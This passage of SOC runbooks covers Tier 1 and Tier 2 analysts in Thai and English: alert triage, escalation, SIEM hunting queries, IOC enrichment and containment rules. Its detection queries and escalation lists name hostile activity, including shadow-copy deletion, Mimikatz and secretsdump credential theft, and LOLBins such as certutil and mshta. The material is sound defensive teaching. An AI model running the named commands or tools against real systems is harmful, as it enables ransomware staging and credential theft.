| ⚠️ **ต้องสืบเพิ่ม** | Enrich IOC → Pivot → ตัดสินใจ | 30 นาที |
| ❌ **False Positive** | บันทึกเหตุผล → Close → อัปเดต tuning list | 5 นาที |
| 🔴 **P1 วิกฤต** | **Escalate ทันที** ไป T2/IR Lead | 0 นาที |

---

## 🚨 ต้อง Escalate เสมอ เมื่อเจอ:

- สัญญาณ Ransomware (เข้ารหัสไฟล์, ลบ shadow copy)
- ข้อมูลกำลังรั่ว (upload ขนาดใหญ่ไป IP นอก)
- บัญชีผู้บริหารถูกยึด
- หลายเครื่องโดนพร้อมกัน
- Production server ถูกบุกรุก
- Malware ทำงานสำเร็จ
- Alert จาก OT/ICS
- ตรวจพบ C2 beaconing
- เจอเครื่องมือขโมย credential (Mimikatz, secretsdump)
- ไม่เข้าใจ alert หลังจาก 30 นาที

### Escalation Flow

```mermaid
graph TD
    T1["👤 Tier 1 Analyst"] -->|"P3/P4 Alert"| Self["จัดการ + ปิด"]
    T1 -->|"P2 หรือไม่แน่ใจหลัง 30 นาที"| T2["👥 Tier 2 Analyst"]
    T1 -->|"P1 วิกฤต"| IRLead["🚨 IR Lead"]
    T2 -->|"ยืนยัน incident"| IRLead
    T2 -->|"Advanced threat / APT"| T3["🔬 Tier 3 / Threat Hunter"]
    IRLead -->|"ยืนยันข้อมูลรั่ว"| Legal["⚖️ Legal + PDPA"]
    IRLead -->|"Insider threat"| HR["👔 HR"]
    IRLead -->|"กระทบ Infra"| IT["🖥️ IT Ops"]
    IRLead -->|"กระทบธุรกิจ"| CISO["🛡️ CISO / ผู้บริหาร"]

    style T1 fill:#4CAF50,color:#fff
    style T2 fill:#FF9800,color:#fff
    style IRLead fill:#f44336,color:#fff
    style T3 fill:#9C27B0,color:#fff
```

---

## Alert ที่พบบ่อย & วิธีจัดการ

### 🎣 Phishing → PB-01
```
1. ห้ามคลิก link/เปิดไฟล์แนบ
2. ตรวจ email header → ปลอมแปลงไหม? (SPF/DKIM fail?)
3. ตรวจ URL → VirusTotal, URLhaus
4. ค้นหาว่าคนอื่นได้ email เดียวกันไหม
5. ถ้าอันตราย → Block sender + URL → Escalate T2
```

### 🔐 Failed Login (Brute Force) → PB-04
```
1. IP มาจากไหน? — ภายในหรือภายนอก?
2. นับจำนวนครั้งและช่วงเวลา
3. มี login สำเร็จหลังจาก fail หรือเปล่า?
4. ถ้า external + >10 ครั้ง → Block IP
5. ถ้า login สำเร็จหลัง fail → อาจถูก compromise → Escalate
```

### 🦠 Malware / EDR → PB-03
```
1. ตรวจชื่อ detection → malware ประเภทใด?
2. ถูก block หรือทำงานสำเร็จ?
3. ดู process tree → อะไร launch มัน?
4. ถ้า EXECUTE สำเร็จ → Escalate ทันที
5. ถ้า BLOCK → ยืนยัน quarantine → หาเครื่องอื่น
```

### 🌐 Web Attack / WAF → PB-10
```
1. ประเภทโจมตี → SQLi, XSS, RCE?
2. Response code → 200 (อาจสำเร็จ) vs 403 (WAF block)
3. IP ต้นทาง → scanner ทั่วไป หรือโจมตีเฉพาะเจาะจง?
4. ถ้า response=200 + payload ดูสำเร็จ → Escalate T2
5. ถ้า block → Log + monitor
```

### ☁️ Cloud Alert (AWS/Azure) → PB-16
```
1. action อะไรที่ trigger alert?
2. IAM user/role ไหน?
3. จาก IP/region ใด?
4. เป็น admin action ที่รู้จักไหม?
5. ถ้า region ผิดปกติ + privileged action → Escalate T2
```

### 💀 Ransomware → PB-02
```
1. ไฟล์ถูกเข้ารหัสไหม? ตรวจนามสกุลไฟล์
2. Shadow copy ถูกลบ? (vssadmin delete shadows)
3. มี ransom note ไหม?
4. ESCALATE ทันที — อย่ารอ
5. Isolate เครื่องถ้าทำได้ผ่าน EDR
```

### 🔀 Lateral Movement → PB-12
```
1. เครื่องที่โดนกำลังเชื่อมต่อเครื่องอื่นไหม?
2. ตรวจ PsExec, WMI, RDP จากต้นทางผิดปกติ
3. Service account ถูกใช้แบบ interactive ไหม?
4. หลายเครื่อง + IOC เดียวกัน = Escalate ทันที
5. บันทึกเครื่องทั้งหมดที่โดนให้ T2
```

### 📤 Data Exfiltration → PB-08
```
1. ข้อมูลออกปริมาณเท่าไร? ไปที่ไหน?
2. ปลายทางเป็น cloud backup ที่รู้จัก หรือ IP แปลก?
3. เกิดระหว่างเวลาทำงานโดย user ปกติไหม?
4. ตรวจ DLP alert สำหรับ data classification
5. ถ้าข้อมูลสำคัญ + ออกภายนอก → Escalate ทันที
```

### 👤 Insider Threat → PB-14
```
1. พฤติกรรมผิดปกติ — นอกเวลา, ปริมาณมาก
2. เข้าถึงข้อมูลนอกหน้าที่ไหม?
3. ใช้ USB/external storage ไหม?
4. ห้ามแจ้งผู้ต้องสงสัย
5. Escalate T2 + แจ้ง SOC Manager (อาจต้องเกี่ยว HR)
```

### 🌊 DDoS → PB-09
```
1. Service กระทบจริงไหม? ตรวจ uptime monitoring
2. Traffic volume — เกิน baseline เท่าไร?
3. มาจาก IP เดียว หรือกระจาย?
4. แจ้ง NOC/Network team ทันที
5. Escalate T2 เพื่อประสานงาน
```

---

## วิธีแยก False Positive (FP Cheat Sheet)

เรียนรู้ pattern FP ที่พบบ่อย:

| Alert Type | FP ที่พบบ่อย | วิธียืนยัน |
|:---|:---|:---|
| Brute force | Helpdesk reset password | IP + user ตรงกับ helpdesk |
| Malware | AV flag admin tools ปกติ | ตรวจ approved tool list |
| C2 beaconing | Heartbeat ไป SaaS/CDN | ตรวจ domain: Akamai, Cloudflare |
| Data exfil | Backup job, cloud sync | ตรวจ scheduled task + ปลายทาง |
| Impossible travel | VPN + cloud login | ตรวจ VPN session |
| Web attack | Security scanner (Qualys, Nessus) | ตรวจ IP กับรายการ scanner |
| Priv escalation | Admin maintenance ปกติ | ตรวจ change calendar |
| Failed login | Service account rotation | ตรวจ rotation schedule |

### Template บันทึก FP
```
เหตุผล FP: [ทำไมเป็น false positive]
Pattern: [อธิบาย pattern ที่เจอซ้ำ]
แนะนำ: □ Tune alert  □ เพิ่ม exclusion  □ Accept risk
อนุมัติโดย: [ชื่อ T2 analyst]
```

---

## ตัวอย่าง Query SIEM

### Splunk

```spl
# หา alert ทั้งหมดของ host (24 ชม.ล่าสุด)
index=alerts host="HOSTNAME" earliest=-24h | stats count by alert_name, severity

# Failed login จาก IP เฉพาะ
index=auth action=failure src_ip="X.X.X.X" earliest=-7d
| stats count by user, dest, _time | sort -count

# ปริมาณ traffic ขาออกตามปลายทาง
index=network direction=outbound src_ip="INTERNAL_IP" earliest=-24h
| stats sum(bytes_out) as total_bytes by dest_ip
| sort -total_bytes | head 20

# Process ที่รันบน endpoint
index=edr host="HOSTNAME" earliest=-48h
| stats count by process_name, parent_process, user | sort -count

# ค้น email — คนอื่นได้ phishing เดียวกันไหม?
index=email subject="*SUSPICIOUS SUBJECT*" earliest=-7d
| stats count by recipient, src_sender, action
```

### Elastic (KQL)

```
# Alert สำหรับ host
event.kind: "alert" AND host.name: "HOSTNAME"

# Failed login
event.outcome: "failure" AND event.category: "authentication"
  AND source.ip: "X.X.X.X"

# Transfer ขนาดใหญ่
network.direction: "outbound" AND source.bytes > 100000000

# Process execution
event.category: "process" AND host.name: "HOSTNAME"
  AND process.name: ("powershell.exe" OR "cmd.exe" OR "wscript.exe")
```

---

## IOC Enrichment

| ประเภท IOC | ตรวจอะไร | เครื่องมือฟรี |
|:---|:---|:---|
| IP Address | Reputation, Geolocation, ASN | VirusTotal, AbuseIPDB, Shodan |
| Domain | WHOIS, DNS, Reputation | VirusTotal, URLhaus, DomainTools |
| File Hash | Malware database | VirusTotal, MalwareBazaar, Hybrid Analysis |
| URL | Reputation, Redirect chain | VirusTotal, URLScan.io, URLhaus |
| Email | Breach databases, reputation | Have I Been Pwned, EmailRep |

### VirusTotal Quick Check
```
IP:   https://www.virustotal.com/gui/ip-address/{IP}
Hash: https://www.virustotal.com/gui/file/{HASH}
URL:  https://www.virustotal.com/gui/url/{URL}
```

### คำสั่ง CLI ตรวจ IOC
```bash
# VirusTotal IP lookup
curl -s "https://www.virustotal.com/api/v3/ip_addresses/{IP}" \
  -H "x-apikey: $VT_API_KEY" | jq '.data.attributes.last_analysis_stats'

# AbuseIPDB check
curl -s "https://api.abuseipdb.com/api/v2/check?ipAddress={IP}" \
  -H "Key: $ABUSEIPDB_KEY" | jq '.data.abuseConfidenceScore'

# Quick WHOIS
whois {DOMAIN} | grep -E "Registrar|Creation|Name Server"
```

---

## ตาราง Log Source

ดู log อะไร ตอบคำถามอะไร?

| คำถาม | Log Source | อยู่ที่ไหน |
|:---|:---|:---|
| ใครเข้าระบบ? เมื่อไร? | Authentication logs | AD/Azure AD/Okta |
| Process อะไรรัน? | EDR telemetry | CrowdStrike/Defender/SentinelOne |
| เข้าเว็บอะไร? | Proxy/DNS logs | Web proxy, DNS server |
| ดาวน์โหลดไฟล์อะไร? | Proxy + EDR | Web proxy + endpoint |
| ข้อมูลรั่วออกไหม? | Firewall/DLP | Firewall, DLP gateway |
| รับ email อะไร? | Email gateway | Exchange/O365/Proofpoint |
| มีอะไรเปลี่ยนบน server? | Windows Event Log | Event ID 4688, 4624, 4625 |
| API อะไรถูกเรียก? | Cloud audit log | CloudTrail/Azure Activity/GCP |
| Rule อะไร trigger? | IDS/IPS | Suricata/Snort/Palo Alto |
| ช่องโหว่ถูกโจมตีไหม? | WAF + App logs | WAF, application server |

### Windows Event ID สำคัญ
| Event ID | ความหมาย |
|:---|:---|
| 4624 | Login สำเร็จ |
| 4625 | Login ไม่สำเร็จ |
| 4648 | Login ด้วย explicit credentials |
| 4688 | Process ใหม่ถูกสร้าง |
| 4720 | สร้าง user account ใหม่ |
| 4732 | เพิ่ม user เข้า security group |
| 7045 | ติดตั้ง service ใหม่ |
| 1102 | Audit log ถูกล้าง ⚠️ |

---

## Template บันทึก Ticket

ทุก alert ที่ดูต้องบันทึก:

```
## สรุป Alert
- Alert ID: [จาก SIEM]
- เวลา: [alert เกิดเมื่อไร]
- เครื่องมือ: [EDR/SIEM/IDS/อื่นๆ]
- ระบบที่โดน: [hostname/IP]
- ผู้ใช้: [username]
- ประเภท: [phishing/malware/brute-force/อื่นๆ]

## ขั้นตอนสืบสวน
1. [ตรวจอะไรก่อน]
2. [พบอะไร]
3. [บริบทเพิ่มเติม]

## IOC
- IP: x.x.x.x (VT: X/90)
- Hash: abc123... (VT: X/70)
- Domain: evil.com (จดเมื่อวาน)

## ตัดสินใจ
- [x] True Positive → Escalate T2 (ticket #XXX)
- [ ] False Positive → ปิด (เหตุผล: scanner ที่รู้จัก)
- [ ] ต้องสืบเพิ่ม

## สิ่งที่ทำ
- Block IP ที่ firewall
- Quarantine file บน endpoint
- แจ้งผู้ใช้
```

---

## SLA ตาม Severity

| Severity | Response Time | Triage Time | Escalation Deadline |
|:---|:---:|:---:|:---:|
| 🔴 Critical (P1) | ≤ 5 นาที | ≤ 15 นาที | ทันที |
| 🟠 High (P2) | ≤ 10 นาที | ≤ 30 นาที | ≤ 1 ชม. |
| 🟡 Medium (P3) | ≤ 30 นาที | ≤ 60 นาที | ≤ 4 ชม. |
| 🟢 Low (P4) | ≤ 60 นาที | ≤ 4 ชม. | กะถัดไป |

### Alert Source → Severity Mapping

| Alert Source | Severity เริ่มต้น | ทำอะไรก่อน |
|:---|:---|:---|
| EDR — Malware execute | 🔴 Critical | Isolate + Escalate |
| EDR — Malware blocked | 🟡 Medium | ยืนยัน quarantine |
| SIEM — Failed logins (>10) | 🟡 Medium | ตรวจ user + Lock |
| DLP — ข้อมูลสำคัญรั่ว | 🔴 Critical | Block + Escalate |
| Firewall — Port scan | 🟢 Low | Monitor + Log |
| IDS — Exploit attempt | 🟠 High | Block IP + สืบสวน |
| Email — Phishing detected | 🟡 Medium | เช็คขอบเขต + Block |
| Cloud — Root/admin action | 🟠 High | ยืนยันตัวตน + action |

---

## ตัวชี้วัดประสิทธิภาพ (KPIs)

| Metric | เป้าหมาย | วิธีปรับปรุง |
|:---|:---:|:---|
| Alert ที่ดู/ชม. | 12–15 | ใช้ keyboard shortcuts, bookmark tools |
| Mean Time to Triage | ≤ 10 นาที | ทำตาม 5-minute checklist |
| False Positive Rate | < 30% | ศึกษา FP cheat sheet |
| Escalation Accuracy | > 90% | ไม่แน่ใจ → escalate |
| Ticket Documentation | 100% | ใช้ template — ทุกครั้ง |
| SLA Compliance | > 95% | ดู severity → ตั้งนาฬิกา |
| Shift Handoff Completion | 100% | ใช้ handoff template |

---

## Shift Handoff Checklist

ก่อนจบกะ:

```
□ Triage alert ครบ (ไม่มี alert ค้าง >30 นาที)
□ Incident ที่เปิดอยู่ อัปเดตสถานะล่าสุด
□ Escalated items ยืนยันว่า T2 รับแล้ว
□ Handoff notes เขียนแล้ว:
  - จำนวน alert ที่ดูไป
  - Incident ที่ยังดำเนินอยู่
  - สิ่งผิดปกติหรือน่ากังวล
  - ระบบที่กระทบ
□ Screenshot dashboard ถ้าเจอ anomaly
```

### Handoff Notes Template
```
=== Shift Handoff: [วันที่] [กะ] ===
Analyst: [ชื่อ]

✅ ปิดแล้ว: [N] alerts
⏳ ค้าง:   [N] tickets
🔴 Incident ที่กำลังดำเนินอยู่: [รายการ หรือ "ไม่มี"]

📝 สิ่งสำคัญ:
  - [สิ่งที่กะถัดไปต้องรู้]
  - [ระบบที่กระทบ / scan ที่กำลังรัน]

⚠️ ระวัง:
  - [alert ที่คาดว่าจะเกิดซ้ำ]
  - [escalation ที่รอ response]
```

---

## สิ่งที่ควรทำ / ไม่ควรทำ

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| ถามเมื่อไม่แน่ใจ | ปล่อย alert ค้าง >30 นาที |
| บันทึกทุกอย่าง | ปิด alert โดยไม่เขียน note |
| Escalate ทันทีถ้าเป็น P1 | พยายามจัดการ P1 คนเดียว |
| ตรวจ alert ที่เกี่ยวข้อง | ดู alert แบบแยกส่วน |
| ใช้ playbook | พึ่งแต่ความจำ |
| อัปเดต status สม่ำเสมอ | เงียบหายระหว่าง incident |
| จำกัดเวลาสืบสวน | ใช้เวลา 2 ชม.กับ alert Low |
| ยืนยัน IOC หลายแหล่ง | เชื่อ VT score ตัวเดียว |
| แจ้ง FP ซ้ำเพื่อ tuning | ปิด FP เดิมซ้ำทุกวัน |

---

## รายชื่อติดต่อ

| บทบาท | ติดต่อเมื่อ |
|:---|:---|
| T2 Analyst | alert ที่แก้ไม่ได้ใน 30 นาที |
| IR Lead | Incident P1/P2 ที่ยืนยันแล้ว |
| SOC Manager | ปัญหา operational, tool ล่ม |
| IT Ops | ปัญหา server/network ระหว่างสืบสวน |
| HR | กรณี insider threat |
| Legal | ยืนยัน data breach, ต้องแจ้ง PDPA |

---

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../Framework.th.md)
- [ตารางความรุนแรง](../Severity_Matrix.th.md)
- [ตาราง Escalation](../Escalation_Matrix.th.md)
- [ส่งมอบกะ](../../06_Operations_Management/Shift_Handoff.th.md)
- [Playbook ทั้งหมด (PB-01 ถึง PB-50)](../Playbooks/Phishing.th.md)


---

## File: 05_Incident_Response/Runbooks/Tier2_Runbook.en.md

# SOC Tier 2 Analyst Runbook

> **Document ID:** RB-T2-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-16  
> **Owner:** SOC Manager  
> **Audience:** Tier 2 / Senior SOC Analysts

---

## Role Overview

As a Tier 2 analyst, you are the **investigation backbone** of the SOC. You receive escalations from Tier 1, perform deep-dive analysis, coordinate containment, and determine whether events are true incidents requiring IR activation.

```mermaid
graph LR
    T1["👤 T1 Escalation"] --> Receive["📥 Receive & Validate"]
    Receive --> Investigate["🔍 Deep Investigation"]
    Investigate --> Correlate["🔗 Cross-Source Correlation"]
    Correlate --> Decision{Incident?}
    Decision -->|Yes| Contain["🛡️ Contain & Eradicate"]
    Decision -->|No| Return["↩️ Return to T1 with guidance"]
    Contain --> Document["📝 Document & Report"]
    Document --> Handoff["📋 Handoff to T3 or IR"]
```

---

## 🆕 Tier 2 Prerequisites

Before you start, ensure you have:

```
□ Full SIEM access (read + write + saved searches)
□ EDR console access (isolate, collect, remediate capabilities)
□ Threat intelligence platform access (MISP, ThreatConnect, etc.)
□ Forensic tools access (Velociraptor, KAPE, Volatility)
□ Sandbox access (Any.Run, Hybrid Analysis, or internal)
□ Network packet capture (Wireshark, Zeek, tcpdump)
□ Ticketing system — incident management permissions
□ Communication channels: #soc-incidents, #ir-team, bridge call access
□ Understand: IR Framework, all 50 Playbooks, MITRE ATT&CK basics
□ Completed T1 role for minimum 6 months
```

---

## Daily Workflow

```
08:00  Shift start → Review T1 escalation queue
08:15  Check active incidents → Update status
08:30  Process T1 escalations (target: 5–8 investigations/day)
       ↓ Investigation cycle ↓
       Validate → Investigate → Correlate → Contain or Close
11:00  Threat intelligence review — new IOCs, advisories
12:00  Team standup with SOC Manager + T3
14:00  Continue investigations + mentoring T1
16:00  Prepare handoff + update incident timelines
16:30  Handoff to next shift
```

---

## Receiving a T1 Escalation

### Step 1: Validate the Escalation (5 min)

| Check | Action |
|:---|:---|
| Is the ticket complete? | Verify T1 documented: alert ID, IOCs, steps taken |
| Is this actually T2 scope? | Redirect operational issues to IT, false escalations back to T1 |
| Priority correct? | Re-assess severity based on asset criticality + threat context |
| Quick wins? | Can you resolve in < 5 min? (e.g., known FP that T1 missed) |

### Step 2: Classify the Investigation

| Category | Examples | Typical Duration |
|:---|:---|:---:|
| 🔴 **Active Compromise** | Malware executing, data exfil in progress | 1–4 hours |
| 🟠 **Possible Compromise** | Suspicious IOCs, unusual behavior | 2–8 hours |
| 🟡 **Policy Violation** | Unauthorized access, shadow IT | 1–2 hours |
| 🟢 **False Positive Review** | Complex FP needing deeper analysis | 30–60 min |

---

## Deep Investigation Methodology

### Phase 1: Scope Assessment (15 min)

```
□ How many hosts/users affected?
□ What is the business criticality of affected assets?
□ What is the potential data exposure?
□ Is lateral movement occurring?
□ Timeline: When did this start? (earliest evidence)
```

### Phase 2: Evidence Collection (30–60 min)

```mermaid
graph TD
    Start["🔍 Start Investigation"] --> SIEM["SIEM: Alert timeline & correlation"]
    SIEM --> EDR["EDR: Process tree, file activity, network"]
    EDR --> Network["Network: Firewall, proxy, DNS, packet capture"]
    Network --> Auth["Auth: Login history, privilege changes"]
    Auth --> TI["TI: IOC enrichment, campaign matching"]
    TI --> Cloud["Cloud: Audit logs, API calls, config changes"]
    Cloud --> Correlate["🔗 Build Attack Timeline"]
```

#### SIEM Correlation Queries

```spl
# Splunk: All activity from compromised host (48h)
index=* host="COMPROMISED_HOST" earliest=-48h
| stats count by sourcetype, action | sort -count

# Lateral movement detection
index=auth (EventCode=4624 OR EventCode=4648) Logon_Type=3
src_ip="COMPROMISED_IP" earliest=-7d
| stats count dc(dest) as unique_targets by src_ip, user
| where unique_targets > 3

# Process lineage — what spawned what
index=edr host="HOSTNAME" earliest=-48h
| table _time, parent_process, process_name, command_line, user
| sort _time

# DNS queries to rare/new domains
index=dns src_ip="HOST_IP" earliest=-7d
| stats count by query | where count < 5

# Data transfer volume by destination
index=firewall src_ip="HOST_IP" action=allowed earliest=-48h
| stats sum(bytes_out) as MB by dest_ip | eval MB=MB/1048576
| where MB > 100 | sort -MB
```

#### Elastic Queries

```
# All events from compromised host
host.name: "COMPROMISED_HOST" AND @timestamp > "now-48h"

# Suspicious process execution
event.category: "process" AND host.name: "HOSTNAME"
  AND process.name: ("powershell.exe" OR "certutil.exe" OR "mshta.exe"
    OR "regsvr32.exe" OR "rundll32.exe" OR "bitsadmin.exe")

# Network connections to external IPs
event.category: "network" AND source.ip: "INTERNAL_IP"
  AND NOT destination.ip: (10.0.0.0/8 OR 172.16.0.0/12 OR 192.168.0.0/16)
```

### Phase 3: IOC Deep Enrichment

| IOC | Basic (T1 did this) | Deep (T2 does this) |
|:---|:---|:---|
| IP Address | VT reputation | Passive DNS, ASN history, BGP peers |
| Domain | WHOIS lookup | Domain age, registrant, SSL cert history |
| Hash | VT detection | Sandbox detonation, YARA match, family ID |
| URL | Reputation check | Full redirect chain, content analysis |
| Email | Header check | SPF/DKIM/DMARC analysis, similar campaigns |

#### Sandbox Analysis Checklist
```
□ Submit hash/URL to sandbox (Any.Run, Hybrid Analysis, Joe Sandbox)
□ Record: dropped files, registry changes, network callbacks
□ Extract additional IOCs: C2 domains, secondary payloads
□ Check MITRE ATT&CK techniques observed
□ Compare with known malware families
```

---

## Containment Decision Framework

```mermaid
graph TD
    Confirmed["✅ Confirmed Incident"] --> Impact{"Business Impact?"}
    Impact -->|Critical| Immediate["🔴 Immediate Containment"]
    Impact -->|High| Quick["🟠 Quick Containment (< 1h)"]
    Impact -->|Medium| Planned["🟡 Planned Containment"]
    Impact -->|Low| Monitor["🟢 Monitor + Schedule Fix"]

    Immediate --> IsolateHost["Isolate host via EDR"]
    Immediate --> BlockNetwork["Block at firewall/proxy"]
    Immediate --> DisableAccount["Disable compromised account"]
    Immediate --> NotifyIR["Notify IR Lead"]

    Quick --> BlockIOC["Block IOCs (IP/domain/hash)"]
    Quick --> ResetPassword["Force password reset"]
    Quick --> EnhanceMonitor["Enhanced monitoring"]

    Planned --> PatchSchedule["Schedule patching"]
    Planned --> PolicyUpdate["Update security policies"]
```

### Containment Actions Quick Reference

| Action | Tool | When |
|:---|:---|:---|
| Isolate host | EDR (CrowdStrike/Defender) | Active malware, C2, lateral movement |
| Block IP/Domain | Firewall, DNS sinkhole, Proxy | Confirmed C2, malicious infrastructure |
| Disable account | AD/Azure AD/Okta | Confirmed account compromise |
| Block hash | EDR, Email gateway | Confirmed malicious file |
| Reset password | AD/Azure AD | Credential theft suspected |
| Revoke sessions | Azure AD, Okta, AWS IAM | Token theft, session hijacking |
| Kill process | EDR remote shell | Active malware execution |
| Quarantine email | Email gateway | Phishing campaign |

### ⚠️ Containment Rules of Engagement

```
DO:
  ✅ Document every containment action with timestamp
  ✅ Get IR Lead approval before isolating production servers
  ✅ Verify backups exist before destructive actions
  ✅ Notify affected business unit BEFORE containment
  ✅ Preserve evidence — take snapshot/image before wiping

DON'T:
  ❌ Isolate without documenting
  ❌ Delete malware without collecting a sample first
  ❌ Reboot a compromised server (destroys volatile memory)
  ❌ Alert a suspected insider
  ❌ Make containment changes in bulk without approval
```

---

## MITRE ATT&CK Mapping

Map each investigation to ATT&CK techniques for tracking:

| Phase | Common Techniques | What to Look For |
|:---|:---|:---|
| **Initial Access** | T1566 Phishing, T1078 Valid Accounts | Email IOCs, stolen credentials |
| **Execution** | T1059 Command/Script, T1204 User Execution | PowerShell, WScript, macro |
| **Persistence** | T1053 Scheduled Task, T1547 Boot Autostart | Registry, services, crontab |
| **Privilege Escalation** | T1068 Exploitation, T1548 Abuse Elevation | UAC bypass, sudo abuse |
| **Defense Evasion** | T1070 Indicator Removal, T1027 Obfuscation | Log clearing, encoding |
| **Credential Access** | T1003 OS Credential Dumping | Mimikatz, LSASS access |
| **Lateral Movement** | T1021 Remote Services, T1570 Lateral Transfer | RDP, PsExec, WMI |
| **Exfiltration** | T1041 Over C2, T1567 Over Web Service | Cloud upload, DNS tunnel |

---

## Incident Documentation Template

```markdown
## Incident Summary
- Ticket ID: [INCT-XXXX]
- Severity: [P1/P2/P3/P4]
- Status: [Investigating / Contained / Eradicated / Resolved]
- Analyst: [Your Name]
- Start Time: [When first alert fired]
- Detection Time: [When SOC identified]
- Containment Time: [When contained]

## Attack Narrative
[One paragraph: who attacked what, how, when, impact]

## Affected Assets
| Host | IP | Role | Status |
|:---|:---|:---|:---|
| [hostname] | [IP] | [server/workstation] | [isolated/clean/compromised] |

## IOC Summary
| Type | Value | Source | Action Taken |
|:---|:---|:---|:---|
| IP | x.x.x.x | VT (45/90) | Blocked at firewall |
| Hash | abc123 | Sandbox | Blocked in EDR |
| Domain | evil.com | TI feed | DNS sinkholed |

## MITRE ATT&CK
- Initial Access: T1566.001 (Spearphishing Attachment)
- Execution: T1059.001 (PowerShell)
- Persistence: T1053.005 (Scheduled Task)

## Timeline
| Time | Event | Source |
|:---|:---|:---|
| 09:15 | Phishing email received | Email gateway |
| 09:22 | User clicked link | Proxy log |
| 09:23 | Malware downloaded | EDR |
| 09:30 | C2 callback detected | Firewall |
| 09:35 | T1 escalated to T2 | Ticket |
| 09:50 | Host isolated | EDR |

## Containment Actions
1. [Action taken + timestamp + who approved]

## Root Cause
[Brief root cause analysis]

## Recommendations
1. [Tuning recommendation]
2. [Process improvement]
3. [Security control gap]
```

---

## Mentoring T1 Analysts

Part of your role is developing T1 skills:

| Scenario | Mentoring Action |
|:---|:---|
| T1 escalates incorrectly | Explain why, show what they missed, don't punish |
| T1 misses a true positive | Walk through the missed indicators together |
| Repeat false positive | Help T1 write a tuning request, review together |
| T1 asks good questions | Encourage, share resources, give stretch assignments |
| New T1 onboarding | Schedule shadow sessions, review their first 10 tickets |

---

## T2 Performance Metrics

| Metric | Target | Notes |
|:---|:---:|:---|
| Investigations/day | 5–8 | Varies by complexity |
| Mean Time to Investigate (MTTI) | ≤ 2 hours | Start-to-decision |
| Mean Time to Contain (MTTC) | ≤ 4 hours | Decision-to-containment |
| Incident Detection Accuracy | > 95% | Post-review validation |
| IOC Feed Contribution | ≥ 5/week | Share findings with TI team |
| T1 Mentoring Hours | ≥ 2/week | Invested in team growth |
| ATT&CK Technique Coverage | Track monthly | Dashboard metrics |

---

## Shift Handoff — T2

```
=== T2 Shift Handoff: [DATE] [SHIFT] ===
Analyst: [YOUR NAME]

📊 Investigations:
  ✅ Completed: [N] investigations
  ⏳ In Progress: [N] — Details:
    - [INCT-XXX] — [brief status, next steps]
  
🔴 Active Incidents:
  - [INCT-XXX] — [severity, status, who's working on it]

🛡️ Containment Actions Taken:
  - [list any blocks, isolations, or resets done this shift]

📝 T1 Feedback:
  - [any T1 mentoring notes, common mistakes today]

⚠️ Watch For:
  - [expected follow-up, pending results, threat intel advisories]
```

---

## Key Contacts

| Role | When to Contact |
|:---|:---|
| T1 Analyst | Return escalations, provide guidance |
| T3 / Threat Hunter | Advanced threats, APT, malware RE |
| IR Lead | P1 incidents, containment approval |
| SOC Manager | Resource needs, process issues |
| IT Ops / SysAdmin | System access, log collection issues |
| Network Team | Firewall rules, packet captures |
| Cloud Team | Cloud IAM, API investigation |
| Legal / Compliance | Data breach, regulatory notification |

---

## Related Documents

- [IR Framework](../Framework.en.md)
- [Severity Matrix](../Severity_Matrix.en.md)
- [Escalation Matrix](../Escalation_Matrix.en.md)
- [Tier 1 Runbook](Tier1_Runbook.en.md)
- [Forensic Investigation](../Forensic_Investigation.en.md)
- [Evidence Collection](../Evidence_Collection.en.md)
- [All Playbooks (PB-01 to PB-50)](../Playbooks/Phishing.en.md)


---

## File: 05_Incident_Response/Runbooks/Tier2_Runbook.th.md

# คู่มือปฏิบัติงาน SOC Tier 2

> **รหัสเอกสาร:** RB-T2-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-16  
> **เจ้าของ:** SOC Manager  
> **กลุ่มเป้าหมาย:** Tier 2 / Senior SOC Analyst

---

## ภาพรวมบทบาท

ในฐานะ Tier 2 analyst คุณคือ **กระดูกสันหลังด้านการสืบสวน** ของ SOC คุณรับ escalation จาก Tier 1 ทำการวิเคราะห์เชิงลึก ประสานงานการ contain และตัดสินว่าเหตุการณ์เป็น incident จริงที่ต้องเปิด IR หรือไม่

```mermaid
graph LR
    T1["👤 T1 Escalation"] --> Receive["📥 รับ & ตรวจสอบ"]
    Receive --> Investigate["🔍 สืบสวนเชิงลึก"]
    Investigate --> Correlate["🔗 Correlation ข้ามแหล่งข้อมูล"]
    Correlate --> Decision{เป็น Incident?}
    Decision -->|ใช่| Contain["🛡️ Contain & กำจัด"]
    Decision -->|ไม่| Return["↩️ ส่งกลับ T1 พร้อมคำแนะนำ"]
    Contain --> Document["📝 บันทึก & รายงาน"]
    Document --> Handoff["📋 ส่งต่อ T3 หรือ IR"]
```

---

## 🆕 สิ่งที่ Tier 2 ต้องมี

ก่อนเริ่ม ต้องมั่นใจว่ามีสิ่งเหล่านี้:

```
□ SIEM access เต็มรูปแบบ (read + write + saved searches)
□ EDR console access (isolate, collect, remediate)
□ Threat intelligence platform (MISP, ThreatConnect ฯลฯ)
□ เครื่องมือ forensic (Velociraptor, KAPE, Volatility)
□ Sandbox (Any.Run, Hybrid Analysis, หรือ internal)
□ Network packet capture (Wireshark, Zeek, tcpdump)
□ Ticketing system — incident management permissions
□ ช่องสื่อสาร: #soc-incidents, #ir-team, bridge call access
□ เข้าใจ: IR Framework, Playbook ทั้ง 35 ชุด, MITRE ATT&CK
□ ผ่านงาน T1 มาอย่างน้อย 6 เดือน
```

---

## ขั้นตอนการทำงานประจำวัน

```
08:00  เริ่มกะ → ตรวจ T1 escalation queue
08:15  เช็ค incident ที่เปิดอยู่ → อัปเดตสถานะ
08:30  ดำเนินการ T1 escalations (เป้า: 5–8 investigation/วัน)
       ↓ วงจรการสืบสวน ↓
       ตรวจสอบ → สืบสวน → Correlate → Contain หรือ Close
11:00  Review threat intelligence — IOCs ใหม่, advisory
12:00  Standup กับ SOC Manager + T3
14:00  สืบสวนต่อ + mentor T1
16:00  เตรียม handoff + อัปเดต incident timeline
16:30  ส่งมอบกะ
```

---

## รับ Escalation จาก T1

### ขั้นที่ 1: ตรวจสอบ Escalation (5 นาที)

| ตรวจอะไร | ทำอะไร |
|:---|:---|
| Ticket ครบไหม? | ยืนยัน T1 บันทึก: alert ID, IOCs, สิ่งที่ทำแล้ว |
| เป็น scope ของ T2 จริงไหม? | ส่งปัญหา operation กลับ IT, FP กลับ T1 |
| Priority ถูกไหม? | ประเมินซ้ำตาม asset criticality + threat context |
